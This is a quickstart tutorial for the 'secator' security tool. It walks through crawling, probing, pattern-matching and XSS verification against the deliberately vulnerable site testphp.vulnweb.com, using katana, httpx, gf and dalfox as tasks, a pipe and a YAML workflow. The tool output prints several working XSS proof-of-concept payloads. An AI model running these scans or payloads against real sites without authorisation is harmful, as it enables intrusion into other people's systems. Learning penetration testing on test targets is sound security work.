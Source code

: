 ```yaml
---
description: or how you can hack faster than ever before...
---
```


# 5 minutes secator session

This quickstart will be focused on using `secator` to find vulnerabilities on the website [http://testphp.vulnweb.com](http://testphp.vulnweb.com).

We will start by using simple `secator` tasks, and then show how to use workflows to considerably speed up the session.

***

## Using tasks

<details>

<summary>Step 1: Run <code>katana</code> on the root URL</summary>

We'll start by using a crawler to find some URLs that could be interesting to exploit for vulnerabiliites. We most often use `katana`, a tool by ProjectDiscovery.

We'll save our results to a `.txt` file:

<pre class="language-bash"><code class="lang-bash"><strong>secator x katana http://testphp.vulnweb.com -o txt
</strong>                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:34:53] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
🔗 http://testphp.vulnweb.com [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/high [404] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/index.php
🔗 http://testphp.vulnweb.com/style.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/privacy.php [404] [PHP:5.6.40, Ubuntu, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/categories.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/cart.php [200] [PHP:5.6.40, Ubuntu, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/artists.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/hpp/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/login.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [Ubuntu, Nginx:1.19.0, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/userinfo.php
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [Ubuntu, Nginx:1.19.0, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Templates/high
🔗 http://testphp.vulnweb.com/comment.php?aid=2
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/signup.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=1
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [PHP:5.6.40, Ubuntu, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/showimage.php?file= [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🗄 Saved TXT reports to 
   • /home/vagrant/.secator/reports/default/tasks/task_katana_target_2023_07_04-01_33_13_152782_PM.txt
   • /home/vagrant/.secator/reports/default/tasks/task_katana_url_2023_07_04-01_33_13_152782_PM.txt
</code></pre>

`katana` found some pretty interesting results, including some PHP files that could potentially be vulnerable.

</details>

<details>

<summary>Step 2: Run <code>httpx</code> on found URLs to alive URLs</summary>

Crawlers usually find URLs from HTML response bodies, which means we have no ideas if those URLs will actually respond to HTTP requests or not.

In order to filter only the URLs that will give a valid HTTP status code, we can use `httpx` on the previous results (txt file).\
\
We'll add some rate limiting (`-rl`) in order to respect the server and not DDoS it for no reason.&#x20;

We want to keep only some HTTP codes (`-mc`) for instance `200`, `301`, and `500` in case we have there are errors we can take advantage of:&#x20;

```bash
secator x httpx /home/vagrant/.secator/reports/default/tasks/task_katana_target_2023_07_04-01_33_13_152782_PM.txt -rl 10 -mc 200,301,500

                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:19:35] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-01_19_35_686343_PM.txt -json -threads 50 -match-code 200,301,500                                                                                                            _base.py:614
🔗 http://testphp.vulnweb.com/showimage.php?file [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [image/jpeg] [196]
🔗 http://testphp.vulnweb.com/hpp [200] [HTTP Parameter Pollution Example] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [203]
🔗 http://testphp.vulnweb.com/cart.php [200] [you cart] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4903]
🔗 http://testphp.vulnweb.com/categories.php [200] [picture categories] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6115]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6193]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/comment.php?aid=2 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [11]
🔗 http://testphp.vulnweb.com/style.css [200] [nginx/1.19.0] [Nginx:1.19.0] [text/css] [5482]
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6251]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [Document titleg] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4697]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [313]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [nginx/1.19.0] [Nginx:1.19.0] [text/css] [562]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [HTTP Parameter Pollution Example] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [383]
🔗 http://testphp.vulnweb.com/login.php [200] [login page] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5523]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [guestbook] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5390]
🔗 http://testphp.vulnweb.com/signup.php [200] [signup] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6033]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [319]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [search] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4732]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [ajax test] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4236]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [disclaimer] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5524]
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6193]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]
🔗 http://testphp.vulnweb.com/artists.php [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5328]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5311]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [975]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [7880]
🔗 http://testphp.vulnweb.com/comment.php?aid=1 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [279]
🔗 http://testphp.vulnweb.com [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🔗 http://testphp.vulnweb.com/index.php [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🗄 Saved TXT reports to 
   • /home/vagrant/.secator/reports/default/tasks/task_httpx_target_2023_07_04-01_34_22_081275_PM.txt
   • /home/vagrant/.secator/reports/default/tasks/task_httpx_url_2023_07_04-01_34_22_081275_PM.txt
```

</details>

<details>

<summary>Step 3: Run <code>gf</code> on found URLs</summary>

`gf` allows to run patterns on URLs, we can use it to quickly detect potential interesting URLs including XSS, LFIs, SSRFs, RCEs, Interesting params, or Insecure Direct Object references.\
Let's hunt for potential XSS:

<pre><code>secator x gf --pattern xss /home/vagrant/.secator/reports/default/tasks/task_httpx_target_2023_07_04-01_34_22_081275_PM.tx
<strong>🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=1 []
</strong>🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=2 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=3 []
🏷️ [xss] http://testphp.vulnweb.com/hpp/?pp=12 []
</code></pre>

Mmmh, it seems like we might have some interesting XSS targets here. Let's use `dalfox` to find out !

</details>

<details>

<summary>Step 4: Run <code>dalfox</code> on potential XSS links</summary>

`dalfox` is a pretty thorough XSS checker, let's run it on the targets we've identified:

```
secator x dalfox http://testphp.vulnweb.com/hpp/?pp=12

                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:41:28] dalfox --silence url 'http://testphp.vulnweb.com/hpp/?pp=12' --format json --worker 50                                                                                                                                           _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22id%3Dx+tabindex%3D1+style%3D%22display%3Ablock%3Btransition%3Aoutline+1s%3B%22+ontransitionend%3Dalert.apply%28null%2C1%29+class%3Ddalfox+, param:pp, payload:"id=x tabindex=1 
style="display:block;transition:outline 1s;" ontransitionend=alert.apply(null,1) class=dalfox , evidence:4 line:  ms.php?p=valid&pp=12"id=x tabindex=1 style="display:block;transition:outline 1s;, message_id:1103, message_str:Triggered XSS Payload 
(found DOM Object): pp="id=x tabindex=1 style="display:block;transition:outline 1s;" ontransitionend=alert.apply(null,1) class=dalfox ]
```

**We have found a Verified XSS !**

We could verify this XSS in our browser to validate it, but `dalfox` already gave us evidence that it works...

</details>

***

## Using a task pipe

`secator` supports UNIX pipes out-of-the-box. You can write a `secator` pipe that can automate the 4 previous steps:

```bash
secator x katana http://testphp.vulnweb.com | secator x httpx | secator x gf --pattern lfi -fmt '{match}' | secator x dalfox
```

You don't have to specify any additional flag than when running normally, since `secator` will detect that you are running a UNIX pipe and automagically pass the proper inputs between task invocations:

* By default, it will pass on `stdin` the raw string results from the previous task. If the task can output multiple [output-types.md](../../in-depth/concepts/output-types.md "mention"), then the first one in the class definition `output_types` attribute is picked.
* We can specify which fields we want to use when passing raw strings using the `-fmt` option. In the previous command the `-fmt '{match}'` option will tell secator to only pass only the `match` field of the `Tag` objects we find with `gf` as string input to the `dalfox`.

<details>

<summary>Command output</summary>

```
[13:50:29] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
[13:50:43] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-01_50_43_044323_PM.txt -json -threads 50                                                                                                                                    _base.py:614
[13:50:49] cat /tmp/gf_2023_07_04-01_50_49_787397_PM.txt | gf xss                                                                                                                                                                           _base.py:614
[13:50:49] dalfox --silence file /tmp/dalfox_2023_07_04-01_50_49_855768_PM.txt --format json --worker 50                                                                                                                                    _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22%26%2339%3B%3E%3Caudio+controls+ondurationchange%3Dprompt%281%29+id%3Ddalfox%3E%3Csource+src%3D1.mp3+type%3Daudio%2Fmpeg%3E%3C%2Faudio%3E, param:pp, payload:"&#39;><audio controls 
ondurationchange=prompt(1) id=dalfox><source src=1.mp3 type=audio/mpeg></audio>, evidence:4 line:  ms.php?p=valid&pp=12"&#39;><audio controls ondurationchange=prompt(1) id=dalfox>, message_id:1862, message_str:Triggered XSS Payload (found DOM 
Object): pp="&#39;><audio controls ondurationchange=prompt(1) id=dalfox><source src=1.mp3 type=audio/mpeg></audio>]
```

</details>

This is already a good time improvement over the previous lengthy set of tasks.

***

## Using a workflow

Task pipes are good to quickly find things, but workflows are much better to repeat the same set of tasks over separate sets of targets, with the same input options for all tasks, while filtering final results and reacting to live results, etc...

Here is a `secator` workflow corresponding to the previous set of tasks:

{% code title="xss_finder.yaml" %}
```yaml
type: workflow
name: xss_finder
description: XSS Finder
tasks:
  katana:
    description: Crawling root URL
  httpx:
    description: Finding alive URLs
    targets_:
      - type: url
        field: url
        condition: item.status_code == 0
  gf:
    description: Identifying XSS
    targets_:
      - url.url
  dalfox:
    description: Verifying XSS
    targets_:
      - type: tag
        field: match
        condition: item.name == 'xss'
```
{% endcode %}

And here is the workflow run using `secator`:

```
secator w xss_finder.yaml http://testphp.vulnweb.com
```

<details>

<summary>Command output</summary>

```
                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

╭────── Workflow xss_finder ──────╮
│ 📜 Description: XSS Finder      │
│ 👷 Workspace: default           │
│ 🍐 Targets:                     │
│    • http://testphp.vulnweb.com │
│ 📌 Options:                     │
│    • threads: 50                │
│    • headless: False            │
│    • system_chrome: False       │
│    • follow_redirect: False     │
│    • debug_resp: False          │
│ ✉  Exporters:                   │
│    • json                       │
│    • csv                        │
╰─────────────────────────────────╯
[14:03:31] 🎉 Workflow xss_finder starting...                                                                                                                                                                                               _base.py:614

🔧 Crawling root URL ...
[14:03:32] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
🔗 http://testphp.vulnweb.com [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/high [404] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/ [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/index.php
🔗 http://testphp.vulnweb.com/style.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/login.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/cart.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/privacy.php [404] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/hpp/ [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/categories.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/artists.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/userinfo.php
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3
🔗 http://testphp.vulnweb.com/comment.php?aid=1 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=3
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=2
🔗 http://testphp.vulnweb.com/signup.php [200] [PHP:5.6.40, DreamWeaver, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [Ubuntu, PHP:5.6.40, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/showimage.php?file= [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [Ubuntu, PHP:5.6.40, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/Templates/high
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [Nginx:1.19.0, Ubuntu, DreamWeaver, PHP:5.6.40]

🔧 Finding alive URLs ...
[14:03:45] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-02_03_45_807367_PM.txt -json -threads 50                                                                                                                                    _base.py:614
🔗 http://testphp.vulnweb.com/Templates/high [404] [404 Not Found] [nginx/1.19.0] [Nginx:1.19.0] [text/html] [153]
🔗 http://testphp.vulnweb.com/index.php [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🔗 http://testphp.vulnweb.com/comment.php?aid=2 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/userinfo.php [302] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [14]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]

🔧 Identifying XSS ...
[14:03:52] cat /tmp/gf_2023_07_04-02_03_52_398624_PM.txt | gf xss                                                                                                                                                                           _base.py:614
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=1 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=2 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=3 []
🏷️ [xss] http://testphp.vulnweb.com/hpp/?pp=12 []

🔧 Verifying XSS ...
[14:03:54] dalfox --silence file /tmp/dalfox_2023_07_04-02_03_52_411553_PM.txt --format json --worker 50                                                                                                                                    _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22onmouseenter%3Dprompt.call%28null%2C1%29+class%3Ddalfox+, param:pp, payload:"onmouseenter=prompt.call(null,1) class=dalfox , evidence:4 line:  ms.php?p=valid&pp=12"onmouseenter=prompt.call(null,1) 
class=dalfox ">link2</a><b, message_id:1540, message_str:Triggered XSS Payload (found DOM Object): pp="onmouseenter=prompt.call(null,1) class=dalfox ]


[14:04:20] 🎉 Workflow xss_finder succeeded in 48 seconds.                                                                                                                                                                                  _base.py:614
🗄 Saved JSON report to /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_2023_07_04-02_04_20_160856_PM.json
🗄 Saved CSV reports to 
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_target_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_url_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_tag_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_vulnerability_2023_07_04-02_04_20_160856_PM.csv

```

</details>

***
